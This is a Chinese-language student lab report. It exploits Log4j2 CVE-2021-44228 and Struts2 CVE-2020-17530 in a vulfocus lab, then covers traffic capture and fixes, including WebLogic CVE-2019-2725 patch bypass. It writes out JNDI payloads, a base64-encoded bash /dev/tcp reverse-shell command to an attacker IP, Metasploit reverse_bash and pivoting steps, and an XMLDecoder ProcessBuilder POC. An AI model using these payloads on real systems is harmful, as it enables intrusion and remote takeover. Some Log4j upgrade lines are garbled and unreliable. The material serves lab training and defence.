# 网络安全攻防实践记录报告
## 完成工作
- log4j2 CVE-2021-44228
  - 检测漏洞存在性
  - 验证漏洞可利用
  - 评估漏洞利用效果
  - 漏洞利用检测
  - 漏洞修复
- 跨网段多靶标攻防
  - 找到单个靶标的威胁暴露面
  - 攻破靶标
  - 建立立足点并发现靶标
  - 漏洞修复

## log4j2 CVE-2021-44228

#### 在 vulfocus 中启动环境

启动 docker 镜像



进入 vulfocus，下载镜像，启动环境

**问题**：在 vulfocus 中迟迟不能启动环境

**原因**：在系统配置中将镜像过期时间设置得过高

**解决**：改低镜像过期时间，成功启动环境

**报错**：`docker: Error response from daemon: driver failed programming external connectivity on endpoint hardcore_bardeen (9a601ec93bd7d608e75e1ea1262eb08c9205fb4f780cc124b02984285f03b753): Bind for 0.0.0.0:80 failed: port is already allocated.`

**原因**：在我们启动了 Docker 后，再对防火墙 firewalld 进行操作，就会发生上述报错。因为 Docker 服务启动时定义的自定义链 DOCKER ，当 firewall 被清掉时，firewall 的底层是使用 iptables 进行数据过滤，建立在 iptables 之上，这可能会与 Docker 产生冲突。

当 firewalld 启动或者重启的时候，将会从 iptables 中移除 DOCKER 的规则，从而影响了 Docker 的正常工作。

当使用的是 Systemd 时，firewalld 会在 Docker 之前启动，但如果在 Docker 启动之后操作 firewalld ，就需要重启 Docker 进程了。

**解决**：运行指令`systemctl restart docker`，重启 docker 服务及可重新生成自定义链 DOCKER。

#### 找到靶标的【访问入口】

启动镜像，找到访问地址



访问该地址



点击`????`



#### 检测漏洞存在性

将 demo.jar 包从容器内拷贝到宿主机上



安装反编译工具：`sudo apt-get install jd-gui`

运行`jd-gui`命令来启动 jd-gui 图形界面程序

反编译源码，找到缺弦代码片段



#### 验证漏洞可利用性

##### 手动验证

访问 DNSlog，手动获取专属随机子域名



将 payload`${jndi:ldap://z4ylbw.dnslog.cn}`使用 url 编码得到：`%24%7Bjndi%3Aldap%3A%2F%2Fz4ylbw.dnslog.cn%7D`

访问



或构造 GET 请求



查看 DNSlog 是否有回显，有回显则表示存在漏洞

##### 自动化检测

克隆工具

`git clone https://github.com/fullhunt/log4j-scan && cd log4j-scan`

修改 `log4j-scan.py`，添加 `payload`` 参数



开始检测

`python3 log4j-scan.py --request-type post -u http://192.168.219.6:28048/hello`

检测成功

#### 评估漏洞利用效果

在攻击者主机上预先准备好一个反弹的监听地址



进入靶标容器，测试有效负载



攻击者主机成功实现监听，得到 flag



在攻击者主机下载工具压缩包并解压



经计算校验和，确认下载的 jar 包无误



在攻击者主机开启端口，等待受害者主机反弹回连 getshell




向受害者主机投放代码：`curl http://192.168.219.6:28048/hello -d 'payload=${jndi:ldap://192.168.166.3:1389/TomcatBypass/Command/Base64/'$(echo -n 'bash -i >& /dev/tcp/192.168.166.3/7777 0>&1' | base64 -w 0 | sed 's/+/%252B/g' | sed 's/=/%253d/g')'}'`

服务器拒绝 POST 请求，允许 GET 请求



监听端口持续没有反应，遂更换工具

下载工具

`git clone https://github.com/bkfish/Apache-Log4j-Learning.git`

构造反弹 shell 的 payload，由于 Runtime 执行 linux 命令时管道符不生效，所以需要对`bash -i >& /dev/tcp/192.168.166.3/7777 0>&1`进行 Base64 编码，得到`YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE2Ni4zLzc3NzcgMD4mMQ==`

在攻击机上搭建 JNDI 服务`java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE2Ni4zLzc3NzcgMD4mMQ==}|{base64,-d}|{bash,-i}" -A 192.168.166.3`



生成 rmi ：`rmi://192.168.166.3:1099/szaibg`

利用靶机地址去访问攻击机的 JNDI 服务

将 payload `${jndi:rmi://192.168.166.3:1099/szaibg}`进行 url 编码：`%24%7Bjndi%3Armi%3A%2F%2F192.168.166.3%3A1099%2Fszaibg%7D`

访问





成功反弹 shell，得到 flag



#### 漏洞利用检测

使用 Docker 的网络命名空间和网络抓包工具来捕获和分析流量

获取容器的 PID（进程ID）

```bash
# 查看容器运行情况
docker ps

docker inspect -f '{{.State.Pid}}' affbab88fdb9 
```



使用 nsenter 命令`nsenter -t 8175 -n`进入容器的网络命名空间

使用网络抓包工具来捕获和分析流量：`tcpdump -i eth0 -w captured_traffic.pcap`，这将在容器的 eth0 网络接口上捕获流量，并将结果保存到 captured_traffic.pcap 文件中



在captured_traffic.pcap 文件中查看到所有访问到容器的流量



查看到疑似远程代码执行的攻击流量

#### 漏洞修复方案

- 将Log4j框架升级到2.15.0版本：`org/apache/loging/logj/logj-core/5.0`，停止使用`2.15.0-rc1`和`2.15.0-rc2`，且升级已知受影响的应用及组件，如`srping-boot-strater-log4j2`、`ApacheSolr`、`Apache Flink`、`Apache Druid`。

- 升级 JDK，使用 11.0.1、8u191、7u201、6u211 及以上的高版本

- 修改 log4j 配置
  - 在应用 classpath 下添加 log4j2.component.properties 配置文件，文件内容为：
`log4j2.formatMsgNoLookups=True`
  - 添加jvm启动参数：
`-Dlog4j2.formatMsgNoLookups=true`
  - 设置系统环境变量`FORMAT_MESSAGES_PATTERN_DISABLE_LOOKUPS`为`true`，并采用 rasp 对lookup 的调用进行阻断

- 禁止 log4j2 所在的服务器外连

- 部署使用第三方产品如 WAF、IDS、IPS 进行安全防护

#### 总结
Log4j2 远程代码执行漏洞是一种CNVD评级为高危安全漏洞，攻击者可以利用该漏洞在受影响的服务器上执行恶意代码。该漏洞的影响范围广泛，可能会影响许多使用 log4j2 的应用程序。面对日益严峻的网络安全风险，我们作为网络安全专业的学生，应该培养起网络安全意识，提前建立网络安全管理员的职业习惯：及时更新受影响的应用程序，以避免被攻击；加强网络安全防护，网络安全监控人员可通过利用全流量监测平台对网络流量、安全设备日志进行监控预警，实时捕获疑似攻击行为和异常操作行为，通过攻击分析、日志排查、攻击 IP 溯源、封堵攻击 IP 及时限制外部访问等技术监测手段，避免被攻击者利用该漏洞入侵系统，完成此安全风险的应急和闭环处置。

## 跨网段多靶标攻防

#### 场景搭建 



启动场景，查看到多个容器已启动



访问靶标入口地址



#### 找到入口靶标的一个可能的威胁暴露面



#### 捕获指定容器的上下行流量
```bash
container_name="<替换为目标容器名称或ID>"
docker run --rm --net=container:${container_name} -v ${PWD}/tcpdump/${container_name}:/tcpdump kaazing/tcpdump
```
为后续的攻击过程「分析取证」保存流量数据



#### 攻破靶标 （CVE-2020-17530 Struts2）

初始化 metasploit 本地工作数据库
```
sudo msfdb init
```

启动 msfconsole
```
msfconsole
```

确认已连接 pgsql
```
db_status
```



已知靶标存在 struts 漏洞，使用 metasploit 的搜索语法，搜索包含 struts2 关键词、类型是 exploit 的漏洞利用程序
```
search struts2 type:exploit
```



通过`info <id>`查看漏洞详细信息

选择漏洞：`use <id>`

配置 payload：`set payload payload/cmd/unix/reverse_bash`



配置参数



检查配置参数列表



getshell，攻击成功，查看打开的 reverse shell，进入会话 1，get flag-1



提交 flag，通过



#### 建立立足点并发现靶标

升级 shell



创建代理
```
run autoroute -s 192.170.84.0/24
```

建立 portscan

```
search portscan
use auxiliary/scanner/portscan/tcp
```



配置



开始扫描：`exploit`

查看主机存货情况和发现的服务列表




#### 漏洞修复

##### weblogic-cve-2019-2725

##### 补丁绕过

在调用 startElement 方法解析 XML 的过程中，如果解析到 Element 字段值为Object就抛出异常：

```
private void validate(InputStream is) {

      WebLogicSAXParserFactoryfactory = new WebLogicSAXParserFactory();

      try {

         SAXParser parser =factory.newSAXParser();

         parser.parse(is, newDefaultHandler() {

            public void startElement(String uri, StringlocalName, String qName, Attributes attributes) throws SAXException {

               if(qName.equalsIgnoreCase("object")) {

                  throw newIllegalStateException("Invalid context type: object");

               }

            }

         });

      } catch(ParserConfigurationException var5) {

         throw newIllegalStateException("Parser Exception", var5);

      } catch (SAXExceptionvar6) {

         throw newIllegalStateException("Parser Exception", var6);

      } catch (IOExceptionvar7) {

         throw newIllegalStateException("Parser Exception", var7);

      }

   }
```

但上述这类采用黑名单的防护措施很快就被如下 POC 轻松绕过，因为其中不包含任何 Object 元素，但经 XMLDecoder 解析后依旧造成了远程代码执行：

```
<java version="1.4.0" class="java.beans.XMLDecoder">

    <new class="java.lang.ProcessBuilder">

        <string>calc</string><method name="start" />

    </new>

</java>
```

针对如上所示补丁限制的 POC 的产生，官方在同年十月份发布了 CVE-2017-10271 补丁文件。和上述不同点在于本次更新中官方将 object、new、method 关键字继续加入到黑名单中，一旦解析XML元素过程中匹配到上述任意一个关键字就立即抛出运行时异常。但是针对 void 和 array 这两个元素是有选择性的抛异常，其中当解析到 void 元素后，还会进一步解析该元素中的属性名，若没有匹配上 index 关键字才会抛出异常。而针对 array 元素而言，在解析到该元素属性名匹配 class 关键字的前提下，还会解析该属性值，若没有匹配上byte关键字，才会抛出运行时异常：

```
public void startElement(String uri, String localName, String qName, Attributesattributes) throws SAXException {

            if(qName.equalsIgnoreCase("object")) {

               throw newIllegalStateException("Invalid element qName:object");

            } else if(qName.equalsIgnoreCase("new")) {

               throw newIllegalStateException("Invalid element qName:new");

            } else if(qName.equalsIgnoreCase("method")) {

               throw newIllegalStateException("Invalid element qName:method");

            } else {

               if(qName.equalsIgnoreCase("void")) {

                  for(int attClass = 0; attClass < attributes.getLength();++attClass) {

                     if(!"index".equalsIgnoreCase(attributes.getQName(attClass))){

                        throw newIllegalStateException("Invalid attribute for elementvoid:" + attributes.getQName(attClass));

                     }

                  }

               }

               if(qName.equalsIgnoreCase("array")) {

                  String var9 =attributes.getValue("class");

                  if(var9 != null &&!var9.equalsIgnoreCase("byte")) {

                     throw newIllegalStateException("The value of class attribute is notvalid for array element.");

                  }
```

本次反序列化漏洞绕过以往补丁的关键点在于利用了 Class 元素指定任意类名，因为 CVE-2017-10271 补丁限制了带 method 属性的 void 元素，所以不能调用指定的方法，而只能调用完成类实例化过程的构造方法。在寻找利用链的过程中发现 UnitOfWorkChangeSet 类构造方法中直接调用了 JDK 原生类中的 readObject() 方法，并且其构造方法的接收参数恰好是字节数组，这就满足了上一个补丁中 array 标签的 class 属性值必须为 byte 的要求，再借助带 index 属性的 void 元素，完成向字节数组中赋值恶意序列化对象的过程，最终利用 JDK 7u21 反序列化漏洞造成了远程代码执行。通过巧妙的利用了 void、array 和 Class 这三个元素成功的打造了利用链，再次完美的绕过了 CVE-2017-10271 补丁限制，本次漏洞的发现进一步证明了依靠黑名单机制是一种不可靠的防护措施。

##### 临时防护措施：

1、打官方补丁包

2、升级本地 JDK 版本

因为 Weblogic 所采用的是其安装文件中默认 1.6 版本的 JDK 文件，属于存在反序列化漏洞的 JDK 版本，因此升级到 JDK7u21 以上版本可以避免由于 Java 原生类反序列化漏洞造成的远程代码执行。

3、配置 URL 访问控制策略

部署于公网的 WebLogic 服务器，可通过 ACL 禁止对`/_async/及/wls-wsat/`路径的访问。修改访问控制策略，限制对`/_async/`及`/wls-wsat/`路径的访问。

4、删除不安全文件

删除`wls9_async_response.war`与`wls-wsat.war`文件及相关数据，并重启Weblogic服务。因为该漏洞由`WAR`包的缺陷引起，删除可以缓解。文件路径：`\Middleware\wlserver_10.3\server\lib\%DOMAIN_HOME%\servers\AdminServer\tmp\_WL_internal\%DOMAIN_HOME%\servers\AdminServer\tmp\.internal\`

注：`wls9_async_response.war`及`wls-wsat.war`属于一级应用包，对其进行移除或更名操作可能造成未知的后果，Oracle 官方不建议对其进行此类操作。若在直接删除此包的情况下应用出现问题，将无法得到 Oracle 产品部门的技术支持。请用户自行进行影响评估，并对此文件进行备份后，再执行此操作。